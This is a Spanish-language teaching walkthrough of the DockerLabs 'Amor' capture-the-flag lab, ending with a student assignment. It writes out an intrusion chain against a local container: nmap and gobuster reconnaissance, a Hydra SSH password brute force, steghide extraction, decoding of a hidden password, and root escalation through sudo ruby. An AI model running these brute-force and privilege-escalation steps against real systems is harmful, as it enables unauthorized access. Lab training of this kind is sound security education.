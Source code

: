 ## DOCKERLABS

DockerLabs es una plataforma que ofrece una serie de desafíos prácticos relacionados con Docker, organizados por niveles de dificultad: Muy Fácil, Fácil, Medio y Difícil

# Reto Amor 

**Prerequisito tener instalado docker**

## Fácil

Dockerlabs.es

*Descarga*

![](Descarga.jpg)

Una vez descargada deberemos copiar el contenido hacia kali.

![](scp1.jpg)


## Despliegue del laboratorio.

Iniciaremos nuestro reto creando una carpeta para el ejercicio, descargando el laboratorio, descomprimiendo, otorgando permisos al script de despliegue y ejecutando el script.

└─# ./auto_deploy.sh amor.tar 

![](Despliegue.jpg)

```bash
jaider@TTG MINGW64 /g/HACKING
$ scp -r amor kali@192.168.1.12:/home/kali/Documents/
```
Ya en Kali y en caso de no tener instlado Docker proceder a su instalación: 

```bash
sudo apt install docker.io
```

## Escaneo

Lo primero que realizaremos será revisar nuestra interfaz de red con:

![](ipadd.jpg)

```bash
ip add 
```
para saber a qué segmento apuntaremos nuestros escaneos.

Ya con el segmento en vista y la interfaz, realizaremos una consulta a la red con el siguiente comando:

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

![](netdiscover.jpg)


Acto seguido, realizaremos una búsqueda con nmap (Network Mapper):

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```

![](nmap.jpg)

La búsqueda nos devuelve que hay dos puertos abiertos, el **22** y el **80**.

Abrimos el navegador para revisar el servicio del puerto **80**.

A la vista no se encuentra nada, así que realizamos un fuzzing para ver si encontrábamos algo. Aun que veremos que es infructuoso el procdimieno. 

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](gobuster.jpg)

A esta altura el servicio web no nos dio el amor que buscábamos, pero sí nos quedamos con la pista de carlota y juan, así que intentaremos con Hydra por SSH con esos usuarios. (Inspección del sitio web)



## Conexión Hydra

Ejecutamos el siguiente comando de hydra, el cual nos da una respuesta positiva al fin:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

![](hydra.jpg)

Realizamos la conexión SSH con los datos obtenidos:

Navegamos a la siguiente ruta:

```bash
cd /carlota/Desktop/fotos/vacaciones
```

En donde encontrarás un archivo llamado `imagen.jpg`.

Para descargarlo lo realizaremos mediante scp como:

```bash
 scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```
![](scp.jpg)


La imagen descargada es la siguiente:

![](foto.jpg)

## Con file identificamos el tipo de fichero.

file.jpg


## Esteganografía

Ya es sospechoso que solo exista una imagen entre las rutas, por lo cual decidimos realizar una consulta de esteganografía con:

```bash
steghide --extract -sf imagen.jpg
```

Dentro del archivo secret.txt encontraremos el siguiente código:

Realizamos una búsqueda para saber qué tipo de codificación es y nos da por resultado que es base64, así que realizamos una decodificación:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Usaremos esta información como contraseña para intentar migrar a otro usuario o convertirnos en root:

```bash
su oscar
```

Con `sudo -l` vemos que tenemos acceso a la consola de **ruby** y la ejecutamos:

![](sudo.jpg)

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Finalmente hacemos un:

```bash
whoami
```
![](root.jpg)

# Taller Individual.

1. ReAlizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado  mediante un cuadro que explique su definición, funcionalidad y casos de uso.

2. Explicar en detalle cada uno de los comandos empleados realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando.
3. Realice un diagrama de flujo de todo el procedimiento realizado.

